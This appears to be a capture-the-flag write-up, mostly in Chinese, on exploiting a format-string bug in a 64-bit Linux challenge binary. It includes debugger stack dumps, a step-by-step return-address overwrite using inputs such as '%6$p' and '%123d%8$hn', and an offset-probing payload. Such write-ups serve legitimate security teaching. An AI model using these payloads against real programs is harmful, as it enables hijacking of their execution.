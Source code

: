 ```assembly
0x00007fffffffe190│+0x0000: 0x00007fffffffe1d0  →  0x00007fffffffe280  →  0x0000000000400eb0  →   push r15       ← $rsp, $rbp
0x00007fffffffe198│+0x0008: 0x0000000000400d74  →   add rsp, 0x30
0x00007fffffffe1a0│+0x0010: 0x000000000a636261 ("abc\n"?)    ← $rdi ; addr of fmt str ; 8th para of fmt str pointer
0x00007fffffffe1a8│+0x0018: 0x0000000000000000
0x00007fffffffe1b0│+0x0020: 0x7978777000000000 ; 0x00007fffffffe1b4 为pw首地址 ; addr of fmt str of next printf
0x00007fffffffe1b8│+0x0028: 0x0000000000000a7a ("z\n"?)
0x00007fffffffe1c0│+0x0030: 0x0000000000000000
0x00007fffffffe1c8│+0x0038: 0x0000000000400d4d  →   cmp eax, 0x2
```

- RBP=`0x00007fffffffe190`，RBP+8 = `0x00007fffffffe198`为返回地址，`0x00007fffffffe1a0`为fmt str的实际地址，而fmt str指针存储在RDI中。由于Linux 64bit传参时，前6个参数用寄存器传递，RDI为第一个参数即fmt str指针，则`0x00007fffffffe1a0`对于fmt str指针来说，是第8个参数。第7个为返回地址，第6个为RBP。
- 在`0000000000400B39`断下时，主要在于RDI有区别，指向了密码处的地址，其他没有本质区别。

## how to hijack retaddr

1. 随意输入合法用户名，密码输入`%6$p`，然后输入1执行`printf(usr name); printf(pw);`得到RBP指向的地址上存储的上个RBP的值
2. 根据上个RBP的值，`-0x38`得到返回地址的地址(addr of ret addr)
3. 输入用户名为返回地址的地址
4. 输入密码为`%123d%8$hn`，`%8$hn`会将到此为止输出的字符个数(123)存储到第8个参数指向的双字节地址处（往该地址存储2B，内容为123）。123根据目标地址更改。
5. 输入1执行`printf(usr name); printf(pw);`，使得返回地址的地址被更改为目标地址



## offset of fmt str

- 也可以使用如下的输入来确认fmt str的偏移量：

```
AAAAAAAA%p%p%p%p%p%p%p%p%p
```

```assembly
gef➤  b *0x0000000000400B28
Breakpoint 1 at 0x400b28
gef➤  r
*Welcome to sangebaimao,Pwnn me and have fun!* .......
Register Account first!
Input your username(max lenth:20):
AAAAAAAA%p%p%p%p%p%p%p%p%p
Input your password(max lenth:20):
Register Success!!
1.Sh0w Account Infomation!
2.Ed1t Account Inf0mation!
3.QUit sangebaimao:(
>1
Welc0me to sangebaimao!

Breakpoint 1, 0x0000000000400b28 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0
$rbx   : 0x0
$rcx   : 0x00007ffff7edcf33  →  0x5577fffff0003d48 ("H="?)
$rdx   : 0x1a
$rsp   : 0x00007fffffffe190  →  0x00007fffffffe1d0  →  0x00007fffffffe280  →  0x0000000000400eb0  →   push r15
$rbp   : 0x00007fffffffe190  →  0x00007fffffffe1d0  →  0x00007fffffffe280  →  0x0000000000400eb0  →   push r15
$rsi   : 0x00000000004010c3  →  "Welc0me to sangebaimao!\n" ; Linux 64bit传参时的 2nd 参数
```